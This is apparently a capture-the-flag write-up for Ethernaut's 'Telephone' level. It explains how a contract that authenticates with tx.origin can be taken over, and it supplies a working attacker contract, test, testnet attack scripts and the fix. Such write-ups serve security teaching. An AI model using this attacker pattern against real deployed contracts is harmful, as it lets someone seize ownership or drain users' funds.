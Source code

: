 # Level 4: Telephone

**Level Page**: [See on Ethernaut](https://ethernaut.openzeppelin.com/level/0x2C2307bb8824a0AbBf2CC7D76d8e63374D2f8446)

**Description**:

Claim ownership of the contract below to complete this level.

`Description after completing the level`:

While this example may be simple, confusing `tx.origin` with `msg.sender` can lead to phishing-style attacks, such as [this](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks).

An example of a possible attack is outlined below.

1. Use `tx.origin` to determine whose tokens to transfer, e.g.

```javascript
function transfer(address _to, uint _value) {
  tokens[tx.origin] -= _value;
  tokens[_to] += _value;
}
```

2. Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g.

```javascript
function () payable {
  token.transfer(attackerAddress, 10000);
}
```

In this scenario, `tx.origin` will be the victim's address (while `msg.sender` will be the malicious contract's address), resulting in the funds being transferred from the victim to the attacker.


**Code**:

<details>
<summary>See Code</summary>

Code to be exploited:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

</details>

# Findings

### [H-1] Use of `tx.origin` allow anyone to claim contract ownership

**Description**: `tx.origin` is used to reference who was the first caller of a function sequence call. A good example from [Solidity docs](https://solidity-by-example.org/hacks/phishing-with-tx-origin/) is: "If contract A calls B, and B calls C, in C `msg.sender` is B and `tx.origin` is A.". So the `msg.sender` refer to the last function address caller.

```javascript
  function changeOwner(address _owner) public {
@>    if (tx.origin != msg.sender) {
          owner = _owner;
      }
  }
```

**Impact**: Allow anyone to claim contract ownership and perform functions that should be protected.

**Proof of Code**: In order to exploit this vulnerability we need to create another contract. In this case, it was created the `TelephoneAttacker.sol`.

<details>
<summary>See TelephoneAttacker Code</summary>

In this case, when the attacker calls `TelephoneAttacker::attack` function, it becomes the `Telephone::tx.origin`, because was the first caller. And as the `TelephoneAttacker` calls `Telephone::changeOwner`, `TelephoneAttacker` becomes the `Telephone::msg.sender`. The sequence is like:

`attacker address` -> `TelephoneAttacker` -> `Telephone`

```javascript
// SPDX-License-Identifier: MIT
  pragma solidity ^0.8.0;

  import {Telephone} from "./Telephone.sol";

  contract TelephoneAttacker {
    Telephone telephone;
    address owner;

    constructor(address _telephoneAddress) {
      telephone = Telephone(_telephoneAddress);
      owner = msg.sender;
    }

    function attack() external{
      telephone.changeOwner(owner);
    }
  }
```
</details>

<details>
<summary>See Test Code</summary>

Test code from `TelephoneAttack.t.sol`.

```javascript
  function testShouldClaimOwnership() public{
    assertEq(telephone.owner(), address(this));
    
    vm.prank(attacker);
    telephoneAttacker.attack();

    assertEq(telephone.owner(), attacker);
  }
```
</details>

**Recommended Mitigation**: Instead of using `tx.origin` try using only `msg.sender` and the `owner` variable in the condition:

```diff
  function changeOwner(address _owner) public {
-    if (tx.origin != msg.sender) {
+    if (msg.sender == owner) {
        owner = _owner;
    }
  }
```

The thing is, if the address who executed this function was not the owner, it would still spend some gas. To avoid this, we could use `require`:

```diff
  function changeOwner(address _owner) public {
-    if (tx.origin != msg.sender) {
-       owner = _owner;
-    }
+    require(msg.sender == owner);
+    owner = _owner;
  }
```

Or we could even create a `modifier` and reuse it in any other function that needs this protection:

```diff
+  modifier onlyOwner() {
+     require(msg.sender == owner, "caller is not the owner");
+     _;
+  }

-  function changeOwner(address _owner) public {
-    if (tx.origin != msg.sender) {
-       owner = _owner;
-    }
+  function changeOwner(address _owner) public onlyOwner {
+    owner = _owner;
   }
```

# Attack

**Description**: To exploit this contract we just need to: 

1. Deploy the `TelephoneAttacker` using the `TelephoneAttackerDeploy.s.sol` (`make deploy`)
2. Run the attack by calling the `TelephoneAttacker::attack` using the `TelephoneAttack.s.sol` (`make attack`)

```javascript
  // TelephoneAttack.s.sol

  vm.startBroadcast(attackerPK);

  // Attack
  telephoneAttacker.attack();

  vm.stopBroadcast();
```

3. Submit the level `make submit`.

**Instance used**: [0x520d85a25A9b14Eeb3Fa3d1eceE88B98882eB8b5](https://sepolia.etherscan.io/address/0x520d85a25A9b14Eeb3Fa3d1eceE88B98882eB8b5)

**Attacker Contract**: [0x82E69EBbD5f4D3822a252060932fe6661D4A6b4b](https://sepolia.etherscan.io/address/0x82E69EBbD5f4D3822a252060932fe6661D4A6b4b)

**Attack Transaction**: [see on etherscan](https://sepolia.etherscan.io/tx/0x583b596d2862582d55eb43be989d56f4493a168fdcb0370e77d9cc4b9f33e30d)

**Level Completed Transaction**: [see on etherscan](https://sepolia.etherscan.io/tx/0x38a4e8b07fa3048796d290ef61bfbeca6702a036235a1090ddd290f9abfb0280)

# Getting started

## Build

```bash
make build
```

## Test

```bash
make test
```

## Deploy Attacker contract (testnet)

```bash
make deploy
```

## Attack (testnet)

```bash
make attack
```

## Submit level (testnet)

```bash
make submit
```

## Check if you completed the level (testnet)

`true` - You completed the level
`false` - You didn't complete the level

```bash
make check
```